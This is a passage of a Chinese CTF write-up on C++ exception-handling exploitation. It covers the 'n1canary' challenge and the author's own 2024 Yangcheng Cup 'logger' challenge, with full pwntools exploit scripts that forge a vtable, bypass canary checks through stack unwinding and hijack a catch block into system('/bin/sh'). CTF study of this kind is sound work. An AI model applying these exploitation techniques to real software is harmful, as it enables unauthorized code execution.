    raise("*** stack smash detected ***");
  return result;
}

void __fastcall __noreturn raise(const char *a1)
{
  std::runtime_error *exception; // rbx

  puts(a1);
  exception = (std::runtime_error *)_cxa_allocate_exception(0x10uLL);
  std::runtime_error::runtime_error(exception, a1);
  _cxa_throw(exception, (struct type_info *)&`typeinfo for'std::runtime_error, std::runtime_error::~runtime_error);
}

```

异常处理流程最终调用到的**析构函数处存在指针调用**，但此时指针已被我们**提前利用溢出数据控好了**，造成任意代码执行

可以直接动调一下 `raise()` 函数内部，然后再看看函数返回哪里呢。可以在一些地方下断点调试看看，比如 **`0x403291` 处的抛出异常**，**`0x403432` 处的调用析构函数**，最后在 `0x4038fc` 出现 crash，原因是不合法的 `RAX`，它的值是 `BOFApp` 类对象指针 `v6`，这是可以利用溢出写到那的，所以是可控的，继续往下看后面的汇编，会发现**只要控了 `RAX` 就能够控到 `RDX`，在最后的 `call rdx;` 处便能造成任意代码执行**



由于 `user_canary` 可控，可以尝试在这里**伪造虚函数表**并将指针劫持到这，这是构造好的 exp 运行到此处时的参数情况



成功执行到后门函数



### 关于本题的其他思考

另外提一嘴，上面提到了避开 canary 检测执行到析构函数，笔者是这样理解的：在程序正常运行时应该是在执行完 `launch()` 函数后执行析构函数，但在 `raise()` 函数里却有异常被抛出，而且回溯了整条函数调用链，包括 `raise()` 函数本身，都没看见有能处理此异常的 `catch` 代码块，合理猜测最终将会由 handler 执行析构函数，在此过程中自然也绕过了程序自身的 `__stack_chk_fail_local` 检测

> 其实在创建对象的函数里，创建对象时会有构造函数，函数返回处会有析构函数。但当该函数运行到一半就抛出了异常时，若在当前函数内不能正常捕捉异常，那这个函数剩下的部分便不会再被执行到了，自然也不会运行到函数返回处的那个析构函数。但是程序依旧是需要去运行析构函数销毁对象的，达到释放资源的目的，这种情况下应该是在 handler 中调用到析构函数的

### 漏洞利用

最终的 exp 如下，还有一点要注意的是，中途覆盖到的**函数返回地址是不能乱填的**，具体原因详见前面的 “原理探究”，与 `unwind()` 函数里的检测有关，所以 ret 填回原来的 `0x403407`

```
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ["tmux", "splitw", "-h"]
pwnfile = './n1canary'
p = process(pwnfile)

def debug(content=None):
    if content is None:
        gdb.attach(p)
        pause()
    else:
        gdb.attach(p, content)
        pause()

def exp():
    # debug('b *0x403547')
    # b *0x40340D               # Destructor
    # b *0x403909               # pointer call
    # b *0x403291               # raise->throw
    # b *0x403432               # <main+146>    call std::unique_ptr<BOFApp, std::default_delete<BOFApp> >::~unique_ptr()
    # b *0x4038fc
    backdoor = 0x403387
    user_canary = 0x4F4AA0
    payload = p64(user_canary+8) + p64(backdoor)*2
    payload = payload.ljust(0x40, 'a')
    p.sendafter('canary\n', payload)

    payload = 'a'*(0x70-0x8)
    payload += p64(0x403407)    # ret
    # payload += 'a'*(0x8)
    payload += p64(user_canary) # BOFApp *v6
    # p.sendlineafter(' to pwn :)\n', payload)

exp()
p.interactive()

```

成功劫持到后门，后门命令执行了 `/readflag`



## 三、2024年”羊城杯“粤港澳大湾区网络安全大赛 - logger

### 来自出题人的碎碎念

笔者作为 “2024羊城杯” PWN 方向出题人，自然要顺带唠一唠这道自己出的题目（题目附件已上传），虽谈不上巧妙（水平有限），但也有不少师傅反馈说受益匪浅

这道题从整体上来看算是中等难度，属于一道机制题，若是将上面的知识都了解透彻后，会做得很顺畅

由于从现在网上公开的文章里，能看到很多师傅都对这道题做了详细的分析，所以笔者主要讲点有意思的地方，不至于让读了文章的师傅空手而归，打算结合源码（上帝视角 XD）和逆向分析的效果对这道题进行剖析

### 题目分析&漏洞分析

首先这道题的创新点在于对抛出异常语句的篡改，最终通过溢出漏洞劫持到有后门的处理块 getshell

细心的师傅可能一下就能发现，`trace` 功能的实现里存在数组 `oob` 漏洞，毕竟这个 `<=` 怎么看都显得十分拙劣



那上述越界能起到什么作用呢？`byte_404020[]` 数据的大小是 0x80，若能写入九次（0~8） 0x10 大小的数据，恰好能改掉下面 `src[]` 数组，这个数组存放了一个字符串 `Buffer Overflow`



结合源码来看，这个字符串的作用是：在检测到溢出的时抛出 `Buffer Overflow` 字符串，而正常来说是由下面的 `catch` 块来处理这个异常，它接受的是 `const char *s` 类型的异常



`warn` 函数里存在大量的溢出写，紧随其后的是检查 `read` 的返回值（实际写入的字节数），那其实就在通过对 `v0` 的检测来判断是否有栈溢出了，所以在检测到存在溢出风险时会执行 `if` 模块，抛出异常



然后被抛出的异常字符串就会被上面提到的 `catch` 块处理，效果是输出报错信息 `[-] An exception of type String variable "Buffer Overflow" was caught...`



但是假如说若能够劫持到别的 `catch` 块进行处理呢？笔者预置了一个后门函数，其 `catch (const char *s)` 也能够捕获字符串类型的异常，劫持到这里即可，源码如下



后门的 `try` 块地址是 `0x401BC2`，在下面有对 `_system` 的调用


比较有意思的是 IDA 似乎对异常处理 `catch` 模块的解析有问题，可见对 `strHandler()` 函数的反编译效果如下，可以对比上面提供的源码

所以解题时只能够查看对 `_system` 函数的交叉引用，然后定位到具体位置后看汇编进行分析了


### 漏洞利用

梳理完毕，现在思路明确了，先是通过数组越界漏洞劫持字符串为 `/bin/sh\x00`，然后通过溢出漏洞劫持到后门 `catch` 进行异常处理，即 `0x401BC2+1` 的位置，最终执行到 `system(/bin/sh)`

exp 如下

```
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ["tmux", "splitw", "-h"]
pwnfile = './pwn'
p = process(pwnfile)
# p = remote('', )

def debug(content=None):
    if content is None:
        gdb.attach(p)
        pause()
    else:
        gdb.attach(p, content)
        pause()

def menu(index):
    p.sendlineafter('chocie:', str(index))

def trace(content='a', judge='n'):
    menu(1)
    p.sendlineafter('here: ', content)
    p.sendlineafter('records? ', judge)

def exp():
    # debug('b *$rebase(0x26A4)')              # call _read
    # debug('b *$rebase(0x2582)')
    # b __cxa_throw@plt

    # payload = 'a'
    for i in range(7):
        trace()
    trace('a'*0x10,'n')
    payload = '/bin/sh;'
    trace(payload)

    menu(2)
    payload = 'a'*0x70
    payload += p64(0X404300)
    payload += p64(0x401BC2+1)
    p.sendafter('Type your message here plz: ', payload)

exp()
p.interactive()

```
